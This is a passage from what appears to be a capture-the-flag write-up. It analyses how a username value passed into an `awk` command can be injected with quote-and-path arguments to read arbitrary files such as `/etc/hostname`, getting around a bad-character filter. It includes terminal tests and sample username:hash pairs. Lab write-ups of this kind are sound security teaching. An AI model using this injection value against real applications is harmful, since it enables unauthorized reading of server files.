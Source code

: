
It’s using `awk` to get the lines from `/var/www/private/leave_requests.csv`
that contain the current username. For example, that syntax applied to the
`hashes` file from earlier:

    
    
    oxdf@hacky$ cat hashes 
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e1811f
    oxdf@hacky$ awk '/chris/' hashes 
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    

This would be a very obvious command injection, but the “bad character” check
before the call to `awk` makes that impossible.

#### Potential File Read

I can mess around in my terminal to see how I might inject into this `exec`
without using the banned characters. With access to `'`, `/`, and space, I can
use this to read any file. The string is built as:

    
    
    awk '/[user]/' /var/www/private/leave_requests.csv
    

If I let `[user]` be `/' /etc/hostname '`, that makes:

    
    
    awk '//' /etc/hostname '/' /var/www/private/leave_requests.csv
    

From my local example, it tries to read three files, `/etc/hostname`, `/`, and
`hashes`, resulting in two files and a warning:

    
    
    oxdf@hacky$ awk '//' /etc/hostname '/' hashes 
    hacky
    awk: cmd. line:1: warning: command line argument `/' is a directory: skipped
    christine.wool:6529fc6e43f9061ff4eaa806b087b13747fbe8ae0abfd396a5c4cb97c5941649
    christopher.jones:e59ae67897757d1a138a46c1f501ce94321e96aa7ec4445e0e97e94f2ec6c8e1
    jackson.lightheart:b091bc790fe647a0d7e8fb8ed9c4c01e15c77920a42ccd0deaca431a44ea0436
    bean.hill:37513684de081222aaded9b8391d541ae885ce3b55942b9ac6978ad6f6e181
    

If I add some more junk to the end, it’ll fail on the second file and not
print the original file:

    
    
    oxdf@hacky$ awk '//' /etc/hostname '0xdf/' hashes 
    hacky
    awk: cmd. line:1: fatal: cannot open file `0xdf/' for reading (No such file or directory)
    

#### Crack JWT
